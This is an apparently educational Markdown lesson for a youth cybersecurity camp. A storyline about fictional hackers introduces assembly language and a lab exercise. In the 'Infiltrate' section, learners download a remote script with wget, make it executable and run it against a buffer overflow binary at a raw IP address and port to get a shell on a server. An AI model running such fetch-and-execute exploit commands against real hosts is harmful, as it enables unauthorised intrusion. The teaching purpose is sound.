 # Welcome to the Final day of Cybersecurity week!

![My guy typing](https://i.insider.com/515583f1eab8ea9a5d00001b?width=1100&format=jpeg&auto=webp)

# Endgame

<div style="margin:auto; display:flex; flex-direction:column; height:800px; max-width:500px">
    <iframe border="0" src="https://crosswordlabs.com/embed/2020-06-24-165?clue_height=40" style="flex:1; width:100%; padding:5px 0px 0 5px; border:3px solid black; "></iframe>
    <a target="_blank" style="align-self:center; font-size:12px; color:black; padding-top:10px; text-decoration:none;text-align:center" href="https://crosswordlabs.com">Crossword Puzzle Maker</a>
</div>

<br> 

Today is the last day of Cybersecurity week. Alice and Bob are pleased with how far you have come in your learnings
and how you have helped the Cyber House in their epic battle against the L33k3rs.

Yesterday you helped the Cyber House achieve a major accomplishment. Alice and Bob, thanks to you, were able to obtain 
information on all member of the L33k3rs. As we speak, Cyber House agents are tracking these people down to put
an end to their l33king schemes

![L33k3rs info](https://udel.codes/cyber4/phishing/L33k3r_Database.png)'

Our battle against the L33k3rs is coming to a close, however there is still one thing left to do.

### The Nano Bots!

We still have to shut down the nano bots. The nano bots are still in the Global Dessert Vault sending recipes to the L33k3rs. In order to stop them, we need to understand a very important programming language. **Assembly Language.**

# Assembly Language

![Assembly](https://y31uv4ra1.vo.llnwd.net/content/wp/tweaklibrary_com/uploads/2017/07/49561-assembly-language-1280x720.jpg)

Assembly Language is the original true low-level computer language with pure instructions that directly translate into machine code.

*To explain:*

- There are languages that are considered **High-Level Programming Languages**, these languages include Python, Java, Javascript, Scratch, ect. These programming languages are then broken down to a **Lower-level Programing Language**

- **Low-Level Programming Languages**, like Assembly and Machine Code, communicate more directly with the computer. Meaning they are more closely related to the computer's core language, like binary. (1's and 0's)

*So why have High-Level Languages if they are just turned into a Low-Level Language?*

- This is because Low-Level Languages are difficult to use and harder to understand then High-Level Languages. High-Level Languages are much easier to read, write, and maintain. If you think coding in general is hard, Assembly is that much harder. 

### Why do we need to know this?

We need to know what assembly does because it is going to help us take down the L33k3rs!

Alice and Bob need us to take control of a L33k3r server so we can destroy it from the inside out! This is called pwning. So we will be compromising another server to gain access, almost like how we used the File Upload Exploit to gain access to the Global Dessert Vault!

---

# Infiltrate the L33k3rs!

So, let's go to the terminal we have been using the past couple of days:  <a href="http://cslabs.app" target="_blank">TERMINAL</a>

First begin by listing all the files in the home directory
- `ls`

Next we will move into the secsoft directory
- `cd secsoft`

Now let us list the files in this directory
- `ls`

Let's read the bufover-2.c file. This is a c file containing c code. This will generate 
- `cat bufover-2.c`

Now we will read the bufover-2 file. This file is the executable for the file we just read. Meaning it will run bufover-2.c.
- `cat bufover-2`

Let's run the executable
- `r2 -Ad bufover-2`

Now that our process is running, let's enter this for the input.
- `Vpp`

What you are seeing is the assembly code for the bufover-2.c file. You can navigate through the code by using the "j" and "k" keys.
To Exit out of this view, press q
- `q`

The program is asking us a few questions, let's answer them by pressing the enter key twice.
- `enter`
- `enter`

Next we are going to download some code made by Alice and Bob that will help us infiltrate the L33k3r server. 

The code below is a script we will run which will create a completely new Bash Terminal that will have control over their server!
- `wget http://prof.ninja/bash32.sh`

The command below will give the file we just downloaded exectuable permission.
- `chmod +x bash32.sh`

Now let's run our script to infiltrate the L33k3r Server!
- `./bash32.sh bufover-2 167.172.231.203 8888`

---

# We're In!

![Access Granted](https://ak.picdn.net/shutterstock/videos/33710788/thumb/5.jpg)

You have now sucessfully infiltrated the L33k3r server. Now look around using the terminal to try and find anything we can use to shutdown their system or to shut down the nanobots!

### Food for thought?

Maybe look for **kill codes**?
- `killcodes.txt`

### Once you find the Kill Code put it into <a href="http://learnification.fun" target="_blank">Learnification.fun!</a> 

# You did it!

![congrats](https://clipartart.com/images/cogratulations-clipart-1.png)


### We have successfully taken down the l33k3rs!

Alice and Bob are so proud! You have been a great help to the Cyber House. Yet there are more things for you to learn in your quest to become an agent in the Cyber House!

Go to this link here to begin your next exercise:

- <a href="http://udel.codes/cyber4/phishing/funwithphish" target="_blank">Phishing</a> 

<br>

# <a href="http://udel.codes/cyber4/victory" target="_blank">CONCLUSION</a> 


